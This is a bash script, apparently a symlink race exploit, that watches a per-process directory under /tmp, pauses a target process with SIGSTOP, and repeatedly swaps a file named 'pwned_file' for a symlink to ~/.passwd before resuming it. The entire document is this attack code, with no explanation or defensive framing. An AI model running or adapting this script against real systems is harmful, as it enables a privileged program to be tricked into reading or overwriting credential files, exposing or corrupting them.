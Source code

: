 #!/bin/bash

DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then
            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
                kill -SIGSTOP $1
                echo -n "data" > $FOUND_DIRS/pwned_file
                kill -SIGCONT $1
                ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                while : ; do
                    kill -SIGSTOP $1
                    unlink $FOUND_DIRS/pwned_file
                    echo -n "data" > $FOUND_DIRS/pwned_file
                    ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    kill -SIGCONT $1
                    [[ -e "$FOUND_DIRS" ]] || break
                done
                break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
